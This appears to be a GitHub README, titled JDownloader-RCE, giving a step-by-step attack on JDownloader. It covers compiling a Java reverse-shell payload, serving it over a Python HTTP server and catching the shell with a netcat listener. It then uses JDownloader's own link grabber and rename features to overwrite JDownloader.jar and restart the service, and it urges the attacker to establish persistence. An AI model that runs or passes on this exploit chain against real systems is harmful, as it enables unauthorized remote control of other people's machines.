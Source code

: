 # JDownloader-RCE
Documenting how to exploit JDownloader instances

Tested on Docker container running Linux Alpine 64 bit, bit it should run on windows/linux either way.

# TL;DR

You can upload a .jar file to JDownloader and change its name to `JDownloader.jar` then restart the service, triggering whatever was in the .jar 

# Step 1: Verify environment settings 

1.1 When you get to the JDownloader interface, go to the top left and select 'Help -> About JDownloader'

1.2 Check the Java version and Installation Directory (in this screenshot its JRE 1.8 and `/config`, which is covered by the "Click me / Mouse Over")

![](screenshots/step1.png)


# Step 2: Create payload 

2.1 Edit the `shell.java` file with your IP and port that you want the reverse shell to come back to. 

2.2 Compile the file. (You may need to change the target and source parameters depending on the JRE from step 1.2)
```bash
javac -target 1.8 -source 1.8 shell.java
jar cmf manifest.mf myprogram.jar shell.class
```


# Step 3: Start server and listener

Open 2 terminals, one to grab your java files from and one with the port you want the reverse shell to come back to.

Terminal 1 : `python3 -m http.server 8081`

Terminal 2 : `nc -nvlp <PORT>`

# Step 4: Upload files

4.1 Go back to the web interface, on the "LinkGrabber" tab and right click. Select 'Add new Links'. 

4.2 Enter your ip like so 'http://YOUR-IP:8081'

4.3 Ensure the directory next to the save icon is the same installation directory from step 1.2

![](screenshots/step4.png)

# Step 5: Change file names 

5.1 Expand each folder and download `myprogram.jar` and `manifest.mf` by right clicking on them and selecting `start download` (if you want, you can replace any file with manifest.mf, we just need a placeholder file that has some text in it)  

5.2 Go over to the "downloads" tab and right click on `manifest.mf`. Goto Properties -> Rename. Change the filename to `JDownloader.jar`. You should get an error saying the file already exists. However, the filename within the GUI changes to JDownloader.jar.

5.3 Repeat step 5.2 again, this time renaming the file to `JDownloader.jar.bak`. This will change the actual `JDownloader.jar` within the config directory to `JDownloader.jar.bak`. 

5.4 Change `myprogram.jar` to `JDownloader.jar`. You should not get an error this time, because the previous step changed the original `JDownloader.jar` to `JDownloader.jar.bak`. 

![](screenshots/step5.png)

# Step 6: Execute. 

** WARNING: Once you run this step you will lose GUI access. This is because we have replaced the .jar file that controls the GUI with our malicious code. ** 

6.1 In the top left, goto `File -> Restart`. This should restart the service, which re-runs the `JDownloader.jar` (which is now our malicious file) 

6.2 To re-execute, just reconnect. (This hasn't been tested thuroughly so dont rely on it. Establish persistence!!) 

![](screenshots/step6.png)

# Cleanup

If you'd like to fix it, just delete the `JDownloader.jar`, `myprogam.jar`, `manifest.mf` and rename `JDownloader.jar.bak` back to `JDownloader.jar`. You may need to restart the service or just run the .jar manually to get the GUI back up. 

